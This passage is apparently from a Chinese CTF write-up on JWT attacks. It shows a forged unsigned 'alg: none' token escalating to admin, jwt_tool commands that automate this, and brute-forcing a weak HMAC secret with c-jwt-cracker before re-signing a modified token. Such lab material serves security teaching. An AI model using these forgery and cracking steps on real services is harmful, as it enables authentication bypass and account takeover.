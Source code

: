 
#### 3）构造新的JWT
由于使用无签名算法，所以Signature为空。然后使用`.`将Header、Payload和Signature拼接起来，得到新的JWT。
虽然Signature为空，它前面的`.`不能忘！
```shell
ew0KInR5cCI6IkpXVCIsDQoiYWxnIjoibm9uZSINCn0.ew0KICAidXNlcm5hbWUiOiAiYWRtaW4iLA0KICAicGFzc3dvcmQiOiAiYWRtaW4iLA0KICAicm9sZSI6ICJhZG1pbiINCn0.
```
#### 4）使用 [jwt_tool](https://github.com/ticarpi/jwt_tool) 一步到位获得新的JWT
```shell
git clone https://github.com/ticarpi/jwt_tool.git
python3 jwt_tool.py <your token> -X a
```
### 4.2.4 替换token，发包获取flag
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645596954608-6be8f61d-68ab-4165-9ee6-2026b17f848a.png#clientId=u43c3d3c0-d629-4&from=paste&height=322&id=u5caa59f4&margin=%5Bobject%20Object%5D&name=image.png&originHeight=429&originWidth=1405&originalType=binary&ratio=1&size=113913&status=done&style=none&taskId=ud8b15f05-926a-4407-98f0-dcc08f8986a&width=1054)


## 4.3 弱密钥
> 如果JWT采用对称加密算法，并且密钥的强度较弱的话，攻击者可以直接通过蛮力攻击方式来破解密钥。

### 4.3.1 抓取token、解密
访问题目地址->输入admin/admin登录->产生token，再次刷新网址，抓包发现JWT格式token
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645597724643-40f438a9-2f60-461e-ad71-8286b1f60186.png#clientId=u43c3d3c0-d629-4&from=paste&height=303&id=u67bb7eb3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=404&originWidth=1413&originalType=binary&ratio=1&size=107637&status=done&style=none&taskId=ub3c2e383-2e67-4899-9d9c-372669b0674&width=1060)
```shell
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJndWVzdCJ9.gpGZ3RoBgMB3eYgewo2gwqso8cpJpFs7sTqagmiTawo
```
​

把token放到 [jwt解密网站](https://jwt.io/) 解密
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645597982846-513ac4d1-a557-4489-9a89-233357e0d4bf.png#clientId=u43c3d3c0-d629-4&from=paste&height=334&id=u63a471f6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=667&originWidth=1070&originalType=binary&ratio=1&size=81340&status=done&style=none&taskId=u191af694-70ec-412d-9bce-fc6f3a42a81&width=535)


### 4.3.2 爆破密钥
使用[JWT cracker](https://github.com/brendan-rius/c-jwt-cracker)工具爆破密钥，爆破得到密钥是`toos`
```shell
git clone https://github.com/brendan-rius/c-jwt-cracker.git

# 生成 jwtcrack
make

# 破解弱密钥
./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiIsInJvbGUiOiJndWVzdCJ9.gpGZ3RoBgMB3eYgewo2gwqso8cpJpFs7sTqagmiTawo
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645597595184-3b559ab6-be73-4b4b-b968-e08c44bbb045.png#clientId=u43c3d3c0-d629-4&from=paste&id=u9e8c6f42&margin=%5Bobject%20Object%5D&name=image.png&originHeight=59&originWidth=1600&originalType=binary&ratio=1&size=24862&status=done&style=none&taskId=u7fc4f731-02b6-491e-a15a-862915c86fb)


### 4.3.3 生成新的JWT
在[jwt解密网站](https://jwt.io/)输入**密钥**，修改`head`和`payload`
![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1645598073898-3a72d1d7-00e1-4b88-ad7d-aa2df525f979.png#clientId=u43c3d3c0-d629-4&from=paste&height=332&id=u9b3accbc&margin=%5Bobject%20Object%5D&name=image.png&originHeight=663&originWidth=1066&originalType=binary&ratio=1&size=84007&status=done&style=none&taskId=ue8295426-909f-4c27-ac2f-52cff49362c&width=533)
​
